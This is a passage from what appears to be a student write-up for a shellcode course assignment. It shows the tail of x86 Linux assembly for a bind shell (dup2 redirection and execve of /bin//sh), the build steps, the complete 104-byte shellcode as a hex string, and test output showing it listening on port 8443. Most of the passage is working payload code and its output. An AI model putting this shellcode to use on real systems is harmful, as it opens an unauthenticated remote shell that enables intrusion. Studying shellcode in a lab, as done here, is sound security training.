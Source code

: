    mov al, 0x3f        ; dup2 = 63 ~ 0x3f
    int 0x80
    dec ecx             ; 2, 1, 0
    jns dup2

; execve(SHELL, NULL, NULL);
execve:
    ; execve
    push byte 0x0b      ; execve = 11 ~ 0x0b
    pop eax             ; eax = 0x0b

    ; arg execve(SHELL, NULL, NULL);
    xor ecx, ecx        ; ecx = 0
    push ecx            ; null
    push ecx            ; null
    push 0x68732f2f     ; "hs//""
    push 0x6e69622f     ; "nib/"
    mov ebx, esp        ; copy arguments on the stack to ecx
    int 0x80
{% endhighlight %}

## Testing

Testing and run the shellcode, as we can see on the output below the shellcode is listening to `*` and port `8443` and i'm able to connect to the shell. I use helper script to do the repetivie tasks like compile and run the shellcode, please see the helper script [Makefile](#helper-script) on below section.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/bind/asm$ make clean-all
[*] Cleanup bind_shell.*
rm -f bind_shell.txt
rm -f bind_shell.o
rm -f bind_shell
[*] Cleanup shellcode.*
rm -f shellcode

kecebong@ubuntu:~/slae32/assigment/bind/asm$ make
[*] Assembling with nasm...
nasm -f elf32 -o bind_shell.o bind_shell.nasm

[*] Linking object...
ld -m elf_i386 -o bind_shell bind_shell.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename    
   104       0       0     104      68 bind_shell

[*] Shellcode:
"\x31\xc9\xf7\xe1\x99\x6a\x66\x58\x6a\x01\x5b\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x97\x6a\x66
\x58\x6a\x02\x5b\x52\x66\x68\x20\xfb\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x6a\x66
\x58\x6a\x04\x5b\x31\xf6\x56\x57\x89\xe1\xcd\x80\x6a\x66\x58\x6a\x05\x5b\x56\x56\x57\x89\xe1
\xcd\x80\x89\xc3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x31\xc9\x51\x51\x68\x2f
\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

kecebong@ubuntu:~/slae32/assigment/bind/asm$ make run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  104

────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:/mnt/hgfs/slae32/assigment/bind/asm$ lsof -i :8443
COMMAND     PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
shellcode 10079 kecebong    3u  IPv4 203379      0t0  TCP *:8443 (LISTEN)